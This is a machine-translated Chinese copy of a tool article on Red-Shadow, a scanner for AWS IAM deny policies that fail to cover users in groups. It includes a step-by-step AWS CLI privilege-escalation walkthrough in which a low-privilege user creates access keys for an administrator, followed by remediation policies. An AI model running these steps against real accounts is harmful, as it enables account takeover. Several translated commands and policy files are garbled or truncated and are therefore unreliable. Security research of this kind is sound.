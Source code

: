 # 红色阴影:Lightspin AWS IAM 漏洞扫描器

> 原文：<https://kalilinuxtutorials.com/red-shadow/>

[![Red-Shadow : Lightspin AWS IAM Vulnerability Scanner](img//f8eb3c8d6044d988356564c7bf23d54d.png "Red-Shadow : Lightspin AWS IAM Vulnerability Scanner")](https://1.bp.blogspot.com/-8qXFS2ULlYY/YOAnO4wqpuI/AAAAAAAAJzs/uTwdSwkUOqEoiZIpQEngUoubEK6mOd3xACLcBGAsYHQ/s728/red-shadow%2B%25281%2529.png)

**红影**是 Lightspin AWS IAM 漏洞扫描器的工具。

根据 Lightspin 的安全研究团队发现的错误配置的拒绝策略，扫描 AWS IAM 配置中的影子管理员，这些策略不会影响组中的用户。

该工具检测以下 IAM 对象中的错误配置:

*   **托管策略**
*   **用户内联策略**
*   **分组内联策略**
*   **角色内联策略**

**研究总结**

应用于组的拒绝策略的 AWS IAM 评估逻辑的工作方式与大多数安全工程师可能习惯的其他授权机制不同。

假设具有组资源的策略具有明确的拒绝。在这种情况下，这将只影响组操作，而不会影响用户操作，例如，如果组织假设该过程与活动目录相同，则会导致配置错误和漏洞。

易受攻击的 json 策略示例:

**{
"版本":" 2012-10-17 "，
"声明":[
{
" Sid ":" protectmanagersbydenie "，
"效果":" Deny "，
"动作":" * "，
"资源":" arn:aws:iam::123456789999:组/经理"
}
]
}**

在本例中，该策略应该拒绝附加了该策略的用户、组或角色对名为 managers 的组执行的任何 iam 操作。

事实是，像`**iam:ChangePassword**`这样简单的 IAM 操作会起作用，因为拒绝策略是无效的。

**检测**

AWS IAM 明确区分了用户对象操作和组对象操作。

以下列表包括该工具在影响组的拒绝策略中扫描的用户对象操作(除通配符之外。

**AWS _ user _ actions =[【iam:create user】、
【iam:getuser】、
【iam:update user】、
【iam:deleted user】、
【iam:getuser policy】、
【iam:putuser policy】、
【iam:deleteuser policy】、
iam:listuser policy**

上面提到的许多用户对象操作很容易导致权限提升或危及帐户安全，例如重置管理员密码、停用根帐户 MFA 等等。

**要求**

红影是用 Python 3 和 Boto3 构建的。

该工具需要:

*   [IAM 用户，在操作系统环境中具有访问密钥](https://docs.aws.amazon.com/cli/latest/userguide/cli-configure-envvars.html)
*   [IAM 用户运行扫描仪的足够权限](https://github.com/lightspin-tech/red-shadow/blob/main/red-shadow-policy.json)
*   安装了 Python 3 和 pip3

**安装**

**sudo git 克隆 https://github.com/lightspin-tech/red-shadow.git
CD 红影
pip 3 install-r requirements . txt**

**用途**

**python3 red-shadow.py**

**分析结果**

结果会发现任何容易在 AWS 中绕过授权的 IAM 对象。

结果输出示例:

**++正在启动 red-shadow++
+++AWS IAM 漏洞扫描器
++ Red Shadow 根据错误配置的拒绝策略扫描 AWS IAM 中的影子管理员不影响组中的用户
步骤 1:在托管策略中搜索 IAM 组错误配置
在 arn:AWS:iam::123456789999:policy/protect managers
进度:|██████████████████████████████████████████████████| 100.0%完成
步骤 2:搜索 iam 组错误配置 100.0%完成
步骤 3:在组内联策略中搜索 IAM 组错误配置
进度:|██████████████████████████████████████████████████| 100.0%完成
步骤 4:在角色内联策略中搜索 IAM 组错误配置
进度:|██████████████████████████████████████████████████| 100.0%完成
完成**

在这个控制台输出中，我们可以看到我们的 ProtectManagers deny 策略是无效的，容易受到攻击，例如上面提到的特权提升。

**模拟&剥削**

要验证 IAM 漏洞并运行攻击，您可以运行以下流程:

*   `**aws iam create-group --group-name managers**`
*   `**aws iam attach-group-policy --group-name managers --policy-arn arn:aws:iam::aws:policy/AdministratorAccess**`
*   `**aws iam create-user --user-name JohnAdmin**`
*   `**aws iam add-user-to-group --user-name JohnAdmin --group-name managers**`
*   使用以下内容创建一个 policy.json 文件(替换帐户 id):

**{
"版本":" 2012-10-17 "，
"声明":[
{
" Sid ":" protectmanagersbydenie "，
"效果":" Deny "，
"Action": "* "，
" Resource ":" arn:AWS:iam::123456789999:group/manager "
}
]
}**

*   **T2`aws iam create-policy --policy-name ProtectManagers --policy-document file://policy.json`**
*   **T2`aws iam create-group --group-name backend-dev`**
*   **T2`aws iam create-user --user-name BobAttacker`**
*   **T2`aws iam add-user-to-group --user-name BobAttacker --group-name backend-dev`**
*   **T2`aws iam attach-group-policy --group-name backend-dev --policy-arn arn:aws:iam::123456789999:policy/ProtectManagers`**
*   创建一个策略，允许用户在 policy_iam.json 文件中为后端开发组创建访问密钥:

**{
"Version": "2012-10-17 "，
" Statement ":[
{
" Sid ":" visual editor 0 "，
"Effect": "Allow "，
" Action ":" iam:CreateAccessKey "，
" Resource ":" * "
}
]
}**

*   **T2`aws iam create-policy --policy-name devCreateAccessKeys --policy-document file://policy_iam.json`**
*   **T2`aws iam attach-group-policy --group-name backend-dev --policy-arn arn:aws:iam::123456789999:policy/devCreateAccessKeys`**
*   使用 **`aws iam list-attached-group-policies --group backend-dev`** 验证我们的配置
*   **T2`aws iam create-access-key --user-name BobAttacker`**
*   在 aws 配置文件(locan env)中配置新的访问密钥和密码
*   现在，用户 BobAttacker 可以为所有资源创建访问密钥，但是对 managers 组有明确的 deny 权限。

**让我们利用以下漏洞:**

**AWS iam create-access-key–用户名 John admin–个人资料 bob 攻击者**

**权限提升完成！**

**补救**

一旦发现策略易受绕过授权的攻击，有两种可能的方法来补救漏洞和修复策略:

**选项 1:** 在资源域中定义所有相关用户，而不是组，以避免无效的 iam 动作，并拒绝所有组动作，如下例:

**{
"Version": "2012-10-17 "，
" Statement ":[
{
" Sid ":" denyspecificseractions "，
"Effect": "Deny "，
" Action ":[
" iam:CreateLoginProfile "，
"iam:ChangePassword "，
"iam:CreateAccessKey"
]，
" Resource ":[** 

**选项 2:** 在适当位置使用 iam:ResourceTag 的策略中的条件，如下例所示:

**{
"Version": "2012-10-17 "，
" Statement ":[
{
" Sid ":" visual editor 0 "，
"Effect": "Deny "，
" Action ":[
" iam:CreateLoginProfile "，
"iam:ChangePassword "，
"iam:CreateAccessKey"
，
【Resource】:" * "，** 

[**Download**](https://github.com/lightspin-tech/red-shadow)